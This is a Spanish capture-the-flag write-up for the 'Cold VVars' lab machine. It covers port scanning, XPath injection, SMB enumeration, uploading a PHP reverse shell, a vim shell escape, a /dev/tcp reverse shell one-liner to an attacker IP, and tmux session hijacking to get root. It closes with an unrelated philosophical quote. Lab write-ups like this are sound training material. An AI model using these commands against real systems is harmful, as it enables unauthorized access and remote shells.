# Cold VVars

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han detectado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `8080` para `HTTP`, el `8082` para otro servicio `HTTP`, y los puertos `139` y `445` para `smbd4`.

<figure><figcaption></figcaption></figure>

Enumeramos los directorios disponibles en el puerto `8080` `HTTP`.

<figure><figcaption></figcaption></figure>

En el puerto `8080`, obtenemos como resultado un directorio llamado `/dev`, pero no podemos acceder a él. Por lo tanto, procedemos a enumerar el puerto `8082`.

<figure><figcaption></figcaption></figure>

Esto tampoco nos proporciona una respuesta útil. Lo que podemos hacer es enumerar los directorios dentro de otro, como por ejemplo `/dev/name`, para intentar encontrar algo que nos permita acceder.

<figure><figcaption></figcaption></figure>

Efectivamente, podemos observar que hay un directorio en `/dev` que contiene lo siguiente:

<figure><figcaption></figcaption></figure>

```
Secure File Upload and Testing Functionality
```

En el puerto `8082`, encontramos un formulario de inicio de sesión. Accedemos a él y podemos intentar realizar una `inyección SQL` o una `inyección XPath`. Con una inyección `XPath`, podríamos obtener credenciales.

<figure><figcaption></figcaption></figure>

Sin embargo, al ingresar con estas credenciales, no encontramos nada interesante; solo aparece el siguiente mensaje:

<figure><figcaption></figcaption></figure>

Con el siguiente comando, descubrimos un usuario de `SMB` llamado `ArthurMorgan`.

```
 enum4linux -S -U -o 10.201.12.204
```

<figure><figcaption></figcaption></figure>

Podemos acceder al servidor `SMB` para comprobar si tenemos acceso a algún archivo importante. Para ello, utilizamos el siguiente comando con la dirección `SECURED` que encontramos al enumerar el servicio.

<figure><figcaption></figcaption></figure>

```
smbclient //<ip>/SECURED -U ArthurMorgan
```

Utilizamos la contraseña que encontramos anteriormente y localizamos un archivo llamado `note.txt`. Simplemente lo descargamos y revisamos su contenido.

```
Secure File Upload and Testing Functionality
```

<figure><figcaption></figcaption></figure>

Si recuerdas, también podíamos acceder al mismo archivo desde `/dev/note.txt`. El mensaje nos proporciona una pista sobre cómo abordar el problema: debemos subir un archivo `shell.php` al servidor `SMB` e implantar una `rev-shell` en el codigo del archivo para obtener acceso al servidor.

```
smbclient -c 'put shell.php' -U ArthurMorgan '//10.201.12.204/SECURED' pasword
```

Ahora, simplemente realizamos una solicitud a `/dev/shell.php` y obtendremos el usuario `www-data`.

<figure><figcaption></figcaption></figure>

# \www-data

Enumeramos el usuario `www-data` y nos damos cuenta de que tenemos acceso a `su`. Por lo tanto, intentamos ejecutar `su ArthurMorgan` y lo logramos utilizando la contraseña que teníamos anteriormente. De esta manera, podemos recuperar la bandera de `user.txt`.

<figure><figcaption></figcaption></figure>

# \ArthurMorgan

Al realizar la enumeración, notamos algo en las conexiones de red. Para examinarlo con más detalle, puedes utilizar el siguiente comando:

```
netstat -tulwn
```

Podemos observar que hay un proceso que se ejecuta cada vez que se escucha en el puerto `4545`.

<figure><figcaption></figcaption></figure>

Al proporcionarle una salida de `4`, nos devuelve un cierre de `vim`, lo que nos permite obtener una `rev-shell`. Para lograr esto, simplemente escribimos lo siguiente:

<figure><figcaption></figcaption></figure>

```
:set shell=/bin/bash
```

```
:shell
```

Una vez que tengamos acceso a la `shell`, podemos redirigirla a otra consola.

```
sh -i 5<> /dev/tcp/10.9.3.128/4243 0<&5 1>&5 2>&5
```

<figure><figcaption></figcaption></figure>

# \marston

Al revisar nuestro usuario, nos damos cuenta de que realmente no tenemos nada. Sin embargo, la enumeración indica que tenemos `tmux` como complemento, lo que podría significar que hay algo oculto aquí. Para ello, necesitamos dirigir todas las sesiones de `tmux` a una sola, y podemos hacerlo con el siguiente comando:

<figure><figcaption></figcaption></figure>

```
tmux attach-session -t 0
```

Aparecerán varias ventanas divididas, y puedes ir cerrándolas. Sin embargo, presta atención, ya que una de ellas debe indicar que tienes `root` como usuario, y aquí es donde encontramos nuestra escalada de privilegios, para obtener nuestra uiltima bandera.

--------------
>
>*Si solo eres bueno porque temes al infierno, entonces no eres bueno.* **~Albert Camus**
>
>Lo llaman religión, pero yo lo considero cobardía. El hombre que actúa únicamente para obedecer un libro, para agradar a un Dios o para escapar del castigo divino, no comprende la verdadera moralidad. No elige hacer el bien; simplemente se deja llevar por el miedo.
>
>Sostengo que la bondad que surge del miedo no es auténtica. Aquél que espera una recompensa en el paraíso no es generoso; es solo algo comercial disfrazándolo de fe. La verdadera moral no proviene del cielo ni de mandamientos inamovibles grabados en piedra; nace de la fuerza interior y del coraje para crear tus propios valores, incluso en un mundo sin garantías divinas. Quien se atreve a elegir es libre de establecer y seguir sus propias reglas, incluso sin la promesa del cielo ni la amenaza del infierno.
>
><figure><figcaption></figcaption></figure>